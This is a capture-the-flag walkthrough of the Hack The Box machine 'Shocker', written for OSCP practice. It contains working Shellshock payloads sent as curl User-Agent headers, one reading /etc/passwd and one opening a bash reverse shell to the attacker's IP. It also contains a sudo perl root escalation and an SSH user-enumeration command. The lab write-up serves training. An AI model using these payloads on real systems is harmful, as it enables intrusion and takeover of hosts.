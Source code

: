 ```yaml
---
title: Shocker
layout: default
parent: Hack the Box OSCP Like
nav_order: 3
has_children: false
---
```


![ShellShock](images/shocker.png)

<button type="button" name="button" class="btn">#ShellShock</button>
# Enumeration
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -sV 10.10.10.56 > nmap.txt
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ cat nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 22:59 BST
Nmap scan report for 10.10.10.56
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

## Visual
Navigated to the site (apache is running) and saw this:  
![Bug](images/shocker1.png)

Page source doesn't contain a whole lot:
```html
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

## GoBuster
Gobuster directory enumeration results in the following:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/24 21:32:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Based on the below reading, I knew we were looking for a .sh file (assuming ShellShock) inside of /cgi-bin. I may have used a hammer here with the 'big.txt' wordlist, but it proved successful:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gobuster dir -e -u http://10.10.10.56/cgi-bin -w /usr/share/seclists/Discovery/Web-Content/big.txt -x sh,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,php
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/06/24 22:54:56 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.56/cgi-bin/.htpasswd            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htaccess.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/.htpasswd.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htpasswd.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/user.sh              (Status: 200) [Size: 118]

===============================================================
2022/06/24 22:57:17 Finished
===============================================================
```

## Reading
---
CGI-BIN is the only item here that looks unique and/or different. Performed some quick research and will attach that info here. Based on the version of apache and the name of the machine, we'll start looking into ShellShock and related exploits.

What is a CGI-Bin? - Definition from Techopedia
https://www.techopedia.com › ... › DevOps › CGI-Bin
A CGI-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website.

CGI - HackTricks
https://book.hacktricks.xyz › pentesting-web › cgi
The CGI scripts are perl scripts, so, if you have compromised a server that ... You could find this vulnerability noticing that it is using an old Apache ...

Apache HTTP Server Path Traversal & Remote Code ...
https://blog.qualys.com › 2021/10/27 › apache-http-ser...
Oct 27, 2021 — On October 4, 2021, Apache HTTP Server Project released Security advisory on a Path traversal and File disclosure vulnerability in Apache ...

Apache mod_cgi - 'Shellshock' Remote Command Injection
https://www.exploit-db.com › exploits
Oct 6, 2014 — CVE-2014-6278 CVE-2014-6271 . remote exploit for Linux platform. ... #!/usr/bin/env python from socket import * from threading import Thread ...

# Exploitation
---
From our previous gobuster results, we found 'user.sh'. Navigating to http://10.10.10.56/cgi-bin/user.sh downloads the file successfully.
[GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271) Link to exploit and test environment

## POC
From the github link above, we ran this command against the machine and it did, in fact, cat out the /etc/passwd file. This indicates that we should be able to initiate a reverse shell (or send through any other command) successfully.
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'"
 http://localhost:8080/cgi-bin/user.sh
```

## FootHold
Pulled the syntax for a bash reverse shell from this [Link](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/) after my regular nc IP PORT command didn't take. I started netcat in a separate window and began the listener, ran this one through via my first terminal and confirmed a reverse shell.
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[/usr/share]
└──╼ [★]$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.56] 57980
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

Navigated to ~, found user.txt, cat'd it out and submitted the flag.

## Privilege Escalation

Started with a typical sudo -l and found we can run perl as root:
```bash
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Tried my hand at sudo perl -e /bin/bash but the syntax wasn't right (obviously). Identified the correct syntax via [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)
```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
```

Navigated to ~, cat'd out root.txt, submitted the flag.

## Failures
### SSH
Started with SSH and identified the following [Exploit](https://www.exploit-db.com/exploits/40136) via searchsploit and exploit-db.
Downloaded the script for later use. I don't think it will be SSH as the aforementioned exploit mostly revolves around user enumeration.

We'll maybe perform the user enumeration just in case.
Running the script gives me a paramiko error, so we'll get that installed as per the [Site](https://www.paramiko.org/installing.html)
```bash
pip install paramiko
```

Had to update the python script to utilize time.perf_counter() instead of time.clock() as it has been deprecated per this article [Link](https://stackoverflow.com/questions/58569361/attributeerror-module-time-has-no-attribute-clock-in-python-3-8)

It seems like we're getting way too many hits on usernames and perhaps this isn't functioning as expected. I think I'm going to move on to apache enumeration, but we'll hold on to this line for later if we want to revisit:
```
python3 40136.py -U /usr/share/SecLists/Usernames/Names/names.txt 10.10.10.56:2222 > username.txt &
```
